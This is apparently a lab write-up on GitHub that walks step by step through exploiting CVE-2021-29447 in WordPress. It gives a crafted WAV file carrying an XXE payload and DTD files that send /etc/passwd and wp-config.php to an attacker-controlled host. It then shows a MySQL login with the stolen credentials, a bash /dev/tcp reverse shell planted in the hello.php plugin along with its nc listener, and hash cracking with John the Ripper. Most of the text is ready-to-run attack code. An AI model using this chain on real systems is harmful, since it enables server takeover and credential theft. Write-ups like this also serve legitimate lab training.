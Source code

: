 # CVE-2021-29447 - WordPress Authenticated Arbitrary File Disclosure via Malicious WAV File

## Summary

**CVE-2021-29447** allows an **authenticated user with low privileges** to upload a **malicious WAV file** that triggers **remote arbitrary file disclosure** and **Server-Side Request Forgery (SSRF)**. In this write-up, we’ll explore how to weaponize this vulnerability, retrieve sensitive WordPress configuration files, and eventually get a reverse shell.

---

## Step 1: Crafting the Malicious WAV File

You can manually craft a WAV file containing a malicious XML payload. Use the following command in your terminal:

```bash
nano poc.wav
```

Then write the content using this command:

```bash
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM "http://YOUR-IP:PORT/NAMEEVIL.dtd">%remote;%init;%trick;]>\x00' > payload.wav
```

---

## Step 2: Create the DTD Payload

On your attack machine, create `NAMEEVIL.dtd`:

```xml
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY %% trick SYSTEM 'http://YOUR-IP:PORT/?p=%%file;'>">
```

This DTD file will tell the server to include and base64 encode the content of `/etc/passwd`.

### Host a PHP Server

Make sure the DTD file is hosted on a reachable HTTP server:

```bash
php -S 0.0.0.0:PORT
```

> Replace `YOUR-IP` and `PORT` with your Kali or THM AttackBox IP and listening port.

---

## Step 3: Decode the Response

When the target server makes the request to your malicious DTD, it will send the base64-encoded contents of `/etc/passwd`.

Use this to decode it:

```php
<?php echo zlib_decode(base64_decode('PASTE_BASE64_HERE')); ?>
```

---

## Step 4: Target wp-config.php

Now modify your `NAMEEVIL.dtd`:

```xml
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/var/www/html/wp-config.php">
<!ENTITY % init "<!ENTITY %% trick SYSTEM 'http://YOUR-IP:PORT/?p=%%file;'>">
```

Repeat the process and decode to extract database credentials:

```php
<?php echo zlib_decode(base64_decode('PASTE_BASE64_HERE')); ?>
```

---

## Step 5: Access the MySQL Database

Connect using credentials from `wp-config.php`:

```bash
mysql -h 10.10.1.7 -u thedarktangent -p --ssl=0
```

Once in, you can dump user data and get admin hashes for cracking.

---

## Step 6: Uploading a Reverse Shell

I found that the `hello.php` plugin was available.

Replace its contents with your PHP reverse shell payload.

Example: `reverse.php`

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/YOUR-IP/5555 0>&1'");
?>
```

### Upload Path

Upload the shell to:

```bash
http://VICTIM-IP/wp-content/plugins/hello.php
```

Then start a listener:

```bash
nc -lvnp 5555
```

You should receive a shell:

```bash
connect to [YOUR-IP] from (UNKNOWN) [10.10.1.7] 54384
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

---

## Step 7: Cracking WordPress Admin Hash

Use tools like `JohnTheRipper` to crack the hash obtained from the `wp_users` table.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

---

## Conclusion

This was an excellent example of chaining a low-privilege file upload vulnerability to SSRF and eventually full server compromise. Always sanitize user uploads and never allow XML entity resolution on sensitive systems.

**Happy Hacking!**

---

> Replace all `YOUR-IP`, `PORT`, and `VICTIM-IP` with your actual IP addresses when testing.
